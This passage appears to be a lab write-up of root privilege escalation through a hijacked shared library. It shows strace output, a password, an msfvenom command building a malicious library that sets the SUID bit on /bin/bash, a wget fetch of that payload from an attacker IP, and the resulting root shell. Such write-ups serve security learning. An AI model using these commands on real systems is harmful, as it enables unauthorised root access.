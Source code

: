 To better understand the binary's behavior, I employed `strace` and identified an attempt to load a non-existent library (`libcounter.so`) from the user's home directory:
```
strace /usr/bin/stock
[snip]

write(1, "Enter the password: ", 20Enter the password: )    = 20

read(0, St0ckM4nager

"St0ckM4nager\n", 1024)         = 13

openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
              
```

Exploiting this behavior, I created a malicious library that, when loaded with sudo privileges, adds the SUID bit to `/bin/bash`:
```
msfvenom -p linux/x64/exec CMD='chmod +s /bin/bash' -f elf-so -o libcounter.so
```

After setting up a Python web server, I downloaded and saved the library to `/home/rektsu/.config`, ensuring it would be loaded when executing the binary with root privileges:
```
rektsu@zipping:~/.config$ wget 10.10.14.2/libcounter.so
```

Upon running `/usr/bin/stock` with sudo privileges, I confirmed that the SUID bit had been added to `/bin/bash`, enabling root access:
```
rektsu@zipping:~/.config$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

rektsu@zipping:~/.config$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1433736 Oct  7  2022 /bin/bash
```

Executing `/bin/bash -p` granted me root access:
```
rektsu@zipping:~/.config$ /bin/bash -p
bash-5.2# id
uid=1001(rektsu) gid=1001(rektsu) euid=0(root) egid=0(root) groups=0(root),1001(rektsu)
```
